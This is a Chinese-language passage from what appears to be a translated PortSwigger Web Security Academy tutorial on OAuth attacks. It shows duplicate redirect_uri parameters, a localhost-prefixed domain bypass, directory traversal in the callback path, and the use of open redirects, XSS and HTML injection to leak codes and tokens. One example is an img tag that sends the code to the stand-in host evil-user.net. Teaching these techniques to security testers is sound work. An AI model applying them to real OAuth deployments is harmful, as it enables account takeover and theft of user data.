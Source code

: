* 你可能偶尔会遇到服务器端的参数污染漏洞。为了以防万一，你应该尝试提交重复的`redirect_uri`参数，如下：

  `https://oauth-authorization-server.com/?client_id=123&redirect_uri=client-app.com/callback&redirect_uri=evil-user.net`

* 一些服务器也对`localhost` URI进行特殊处理，因为它们经常在开发期间使用。在某些情况下，任何以`localhost`开头的重定向URI在生产环境中可能会被意外地允许。这可能允许你通过注册一个域名绕过验证，例如`localhost.evil-user.net`。

值得注意的是，你不应该把你的测试限制在只是孤立地探测`redirect_uri`参数上。在野外，你经常需要对几个参数的不同组合进行试验。有时改变一个参数会影响其他参数的验证。例如，将`response_mode`从`query`改为`fragment`，有时可以完全改变`redirect_uri`的解析，使你可以提交否则会被阻止的URI。同样，如果你注意到支持`web_message`的响应模式，这通常允许在`redirect_uri`中有更大范围的子域。

#### 通过代理页面窃取代码和访问令牌

面对更强大的目标，你可能会发现，无论你怎么尝试，你都无法成功地提交一个外部域作为`redirect_uri`。然而，这并不意味着是时候放弃了。

到了这个阶段，你应该对URI的哪些部分可以篡改有了比较好的了解。现在的关键是利用这些知识，试图在客户端应用程序本身中获得更广泛的攻击面。换句话说，试着找出你是否可以改变`redirect_uri`参数，使其指向白名单上的任何其他页面。

尝试找到可以成功访问不同子域或路径的方法。例如，默认的URI通常会在一个OAuth的特定路径上，如`/oauth/callback`，这不太可能有任何有趣的子目录。然而，你可以使用目录遍历的技巧来提供域上的任何任意路径。就像这样：

`https://client-app.com/oauth/callback/../../example/path`

在后端可能被解释为：

`https://client-app.com/example/path`

一旦你确定了哪些其他的页面你能够设置为重定向URI，你就应该审计它们是否有额外的漏洞，你可以潜在地利用这些漏洞来泄露代码或令牌。对于授权代码流，你需要找到一个能让你访问查询参数的漏洞，而对于隐式授予类型，你需要提取URL片段。

为此，最有用的漏洞之一是开放重定向。你可以把它作为一个代理，把受害者连同他们的代码或令牌一起转发到一个攻击者控制的域，在那里你可以托管任何你喜欢的恶意脚本。

请注意，对于隐式授予类型，窃取访问令牌并不只是让你能够在客户端应用程序上登录到受害者的账户。由于整个隐式流程是通过浏览器进行的，你也可以使用该令牌对OAuth服务的资源服务器进行自己的API调用。这可能使你能够获取你通常无法从客户端应用程序的网页用户界面访问的敏感用户数据。

> 实验：
>
> [通过打开重定向窃取OAuth访问令牌](https://portswigger.net/web-security/oauth/lab-oauth-stealing-oauth-access-tokens-via-an-open-redirect)

除了开放重定向，你应该寻找任何其他的漏洞，允许你提取代码或令牌并将其发送到外部域。一些好的例子包括：

* **处理查询参数和URL片段的危险的JavaScript**

  例如，不安全的网络信息传递脚本可以很好地实现这一点。在某些情况下，你可能要确定一个较长的小工具链，让你在最终将令牌泄露给你的外部域之前，通过一系列的脚本来传递。 

* **XSS漏洞**

  尽管XSS攻击本身会产生巨大的影响，但在用户关闭标签或导航离开之前，攻击者通常会有一小段时间可以访问用户的会话。由于`HTTPOnly`属性通常用于会话cookie，攻击者通常也无法使用XSS直接访问它们。然而，通过窃取OAuth代码或令牌，攻击者可以在他们自己的浏览器中获得对用户账户的访问。这使他们有更多的时间来探索用户的数据并进行有害的操作，大大增加了XSS漏洞的严重性。

* **HTML注入漏洞**

  在不能注入JavaScript的情况下（例如，由于CSP的限制或严格的过滤），你可能仍然能够使用一个简单的HTML注入来窃取授权代码。如果你能将`redirect_uri`参数指向一个可以注入你自己的HTML内容的页面，你可能就能通过`Referer`头泄露代码。例如，考虑下面这个img元素：`<img src="evil-user.net">`。当试图获取这张图片时，一些浏览器（如Firefox）会在请求的`Referer`头中发送完整的URL，包括查询字符串。

> 实验：
>
> [通过代理页面窃取OAuth访问令牌](https://portswigger.net/web-security/oauth/lab-oauth-stealing-oauth-access-tokens-via-a-proxy-page)
